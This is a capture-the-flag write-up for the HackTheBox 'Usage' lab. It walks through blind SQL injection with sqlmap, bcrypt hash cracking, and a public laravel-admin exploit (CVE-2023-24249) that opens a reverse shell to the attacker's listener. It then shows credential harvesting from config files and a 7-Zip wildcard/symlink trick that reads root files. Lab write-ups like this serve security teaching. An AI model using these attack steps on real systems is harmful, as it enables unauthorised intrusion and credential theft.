# Usage - Easy

Target IP: **10.129.65.45**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.65.45 -v```

Output shows standard port 22 for ssh and port 80 running Nginx 1.18.0.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```usage.htb``` to our ```/etc/hosts``` file and navigate to it.

We are greeted with a standard login page.



Capturing a request and response, we see that the website sets an ```XSRF-TOKEN``` and a ```laravel_session``` cookie for us, and also sends in a ```_token``` value in the body of the POST request.

A search reveals that Laravel is an open-source PHP web framework.



Pressing the ```admin``` button leads us to ```admin.usage.htb```. Let's add to our hosts file and navigate.

This is a separate login for admins.



Capturing a request, we can see that it functions similarly to the regular login page.



I can't get a free win with some common credentials, so let's enumerate further.

Enumerating for directories, common web content, and subdomains doesn't reveal anything. We must be missing something.

We haven't tried registering for an account, so let's try that.



After registering, we can log in. It leads us to ```/dashboard```. However, there isn't anything we can do inside of it.



After looking around and testing, I find that the ```email``` parameter for the ```/forget-password``` endpoint is vulnerable to SQLi.

The back-end was probably forming a query like ```SELECT * FROM users WHERE email = 'input';```. Since we input a ```'``` to close our the email string and add ```or 1=1``` to the query and it still responds with a successful message, it processed the query and outputted true.

However, since we don't see any information from the database reflected back to us, this is a blind SQLi vulnerability.



Let's use sqlmap. I find a database named ```usage_blog``` that seems the most interesting. The ```admin_users``` or ```users``` tables look the most promising.

```
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Dumping the contents of the ```admin_users``` table, we get the password hash of the ```admin``` user.

```
Database: usage_blog
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+-----------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                                  |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+-----------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLoguSty5fCAx?D??CYS1SmPpxvEkzv1\x04dzv?0qLY_=aaawA?L? |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+-----------------------------------------------------------------+
```

Let's crack it.

The ```$2y$10$``` at the beginning suggests a ```bcrypt``` hash.

We get a result.

```
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
```

Let's try logging into the ```admin``` panel now.

We're in!

The website seems to be collecting information about the website and the remote machine.



There is a section where we can see the logs and export them as a ```.csv``` file. 



Let's download it onto our attack box and see what it gives us.

We find another password hash different from the one for ```admin```. Let's save it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dd28beioy7]─[~]
└──╼ [★]$ column -t -s, admin_operation_log.csv | grep -i 'pass'
    ""password"": ""$2y$10$E9.N1P92fYSjJGQDfBrUaO05EHW4BxiQITrqjde\/WQMKnAQ7k2HJK""                                                                                                                                                                                                                               
    ""password_confirmation"": ""$2y$10$E9.N1P92fYSjJGQDfBrUaO05EHW4BxiQITrqjde\/WQMKnAQ7k2HJK""
```

Another point of interest is the ```Menu``` tab, where we can add more directories to the website. If we can add php code and execute it by navigating to the newly added url, we could get a foothold.



Let's try it.

It is created but we can't upload code or a file to it, so it doesn't work.



At the bottom of the panel, it says version ```1.8.17```, but I'm unsure about what it actually is. On the dependencies section of the main dashboard, it says ```laravel-admin``` is version 1.8.18. The website that we are on right now might be a part of ```laravel-admin```. We can look for publicly disclosed vulnerabilities for it.

I find out that it is vulnerable to CVE-2023-24249, an RCE vulnerability by file upload. I found a [PoC](https://github.com/IDUZZEL/CVE-2023-24249-Exploit) here. Let's try it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dd28beioy7]─[~/CVE-2023-24249-Exploit]
└──╼ [★]$ python3 exploit.py -u http://admin.usage.htb/ -U admin -P whatever1 -i 10.10.15.194 -p 4444
/home/htb-mp-3199654/CVE-2023-24249-Exploit/exploit.py:8: SyntaxWarning: invalid escape sequence '\ '
  / __\ \ / / __|_|_  )  \_  )__ /__|_  ) | |_  ) | |/ _ \\

  _____   _____   ___ __ ___ ____   ___ _ _ ___ _ _  ___
 / __\ \ / / __|_|_  )  \_  )__ /__|_  ) | |_  ) | |/ _ \
| (__ \ V /| _|___/ / () / / |_ \___/ /|_  _/ /|_  _\_, /
 \___| \_/ |___| /___\__/___|___/  /___| |_/___| |_| /_/  EXPLOIT by IDUZZEL

[+] Reverse shell uploaded successfully! Attempting to execute it...
[+] Reverse shell executed successfully! Check your listener at 10.10.15.194:4444
```

Our listener receives a shell as the ```dash``` user. Nice.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dd28beioy7]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.65.45 49436
bash: cannot set terminal process group (1057): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/var/www/html/project_admin/public/uploads/images$ whoami
whoami
dash
```

Looking at ```/etc/passwd```, we are likely looking for credentials for the ```xander``` user.

```
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
```

We find a file with a hash in it.

```
dash@usage:/var/www/html/project_admin/database/factories$ cat UserFactory.php 
<?php

namespace Database\Factories;

use Illuminate\Database\Eloquent\Factories\Factory;
use Illuminate\Support\Str;

/**
 * @extends \Illuminate\Database\Eloquent\Factories\Factory<\App\Models\User>
 */
class UserFactory extends Factory
{
    /**
     * Define the model's default state.
     *
     * @return array<string, mixed>
     */
    public function definition(): array
    {
        return [
            'name' => fake()->name(),
            'email' => fake()->unique()->safeEmail(),
            'email_verified_at' => now(),
            'password' => '$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi', // password
            'remember_token' => Str::random(10),
        ];
    }

    /**
     * Indicate that the model's email address should be unverified.
     */
    public function unverified(): static
    {
        return $this->state(fn (array $attributes) => [
            'email_verified_at' => null,
        ]);
    }
}
```

I find out this is a script that generates fake data for the User model, so this is not it.

We find credentials for MySQL in the ```.env``` file.

```
dash@usage:/var/www/html/project_admin$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:oMsNNEsunFZxVvNVc0pfq7Gbn8hWGURpQLAgH6/dktA=
APP_DEBUG=false
APP_URL=http://admin.usage.htb

LOG_CHANNEL=stack
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=usage_blog
DB_USERNAME=staff
DB_PASSWORD=s3cr3t_c0d3d_1uth
```

Login is successful through MySQL.

```
dash@usage:/var/www/html/project_admin$ mysql -u staff -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 50058
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

I looked through the database and kept on encountering errors. After thinking about it, we already went through the database with the previous SQLi vulnerability, so we should look elsewhere.

The ```dash``` user has a home directory, and inside it there were unusual files. Looking at ```.monitrc```, we find a cleartext password.

```
dash@usage:~$ cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

Using it, we can log in as ```xander```.

```
xander@usage:~$ whoami
xander
```

We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` reveals that we can run the ```usage_management``` binary as ```root``` without a password.

```
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

Running the binary, we have three options. The first one seems to create a zipped archive of the project data.

```
xander@usage:~$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Scanning the drive:
2984 folders, 17968 files, 113883433 bytes (109 MiB)       

Creating archive: /var/backups/project.zip
```

The binary also runs 7-Zip to perform this. It seems to be zipping all the content inside ```/var/www/html``` into ```/var/backups/project.zip```.

Let's check the version of ```7z```.

```
xander@usage:~$ 7z

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Usage: 7z <command> [<switches>...] <archive_name> [<file_names>...]
       [<@listfiles...>]
```

Let's think about this. Since the binary is ran as ```root```, the underlying call to ```7z``` must also have ```root``` privs. That means it can read protected files. I searched on Google how ```7z``` handles symlinks pointing to files, and apparently it saves the contents of the file that is being protected to. By that logic, we might be able to create a symlink to the root flag inside ```/var/www/html``` and have 7z read the file for us.

Let's try it.

```
xander@usage:/var/www/html$ ln -s /root/root.txt hi
xander@usage:/var/www/html$ ls -la
total 16
drwxrwxrwx  4 root   xander 4096 Sep 18 20:48 .
drwxr-xr-x  3 root   root   4096 Apr  2  2024 ..
lrwxrwxrwx  1 xander xander   14 Sep 18 20:48 hi -> /root/root.txt
drwxrwxr-x 13 dash   dash   4096 Apr  2  2024 project_admin
drwxrwxr-x 12 dash   dash   4096 Apr  2  2024 usage_blog
```

I ran the binary and unzipped the results, but the content stored in the file is just the path, not the actual content.

```
xander@usage:~$ cat hi
/root/root.txt
```

Running ```strings``` on the binary, we can pick out some relevant pieces.

This tells us how ```7za``` is being ran, and it as a trailing wildcard.

```
xander@usage:~$ strings /usr/bin/usage_management 
/lib64/ld-linux-x86-64.so.2
chdir
__cxa_finalize
__libc_start_main
puts
system
__isoc99_scanf
perror
printf
libc.so.6
GLIBC_2.7
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

Looking on [HackTricks](https://hacktricks.wiki/en/linux-hardening/interesting-files-permissions/wildcards-spare-tricks.html), we can exploit this by telling ```7z``` to treat our symlink file as a file list, making ```7z``` read the contents of the file.

Let's try it.

```
xander@usage:/var/www/html$ ln -s /root/root.txt hi
xander@usage:/var/www/html$ touch @hi
xander@usage:/var/www/html$ ls -la
total 16
drwxrwxrwx  4 root   xander 4096 Sep 18 21:03 .
drwxr-xr-x  3 root   root   4096 Apr  2  2024 ..
-rw-rw-r--  1 xander xander    0 Sep 18 21:03 @hi
lrwxrwxrwx  1 xander xander   14 Sep 18 21:03 hi -> /root/root.txt
drwxrwxr-x 13 dash   dash   4096 Apr  2  2024 project_admin
drwxrwxr-x 12 dash   dash   4096 Apr  2  2024 usage_blog
```

After running the binary, we can see that it spit out the file contents.

```
xander@usage:~$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54839771

Scanning the drive:
          
WARNING: No more files
</root/root.txt>
```

I chose to directly get the flag, but we could have gotten ```root```'s private key in their ```/.ssh``` directory for shell access.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
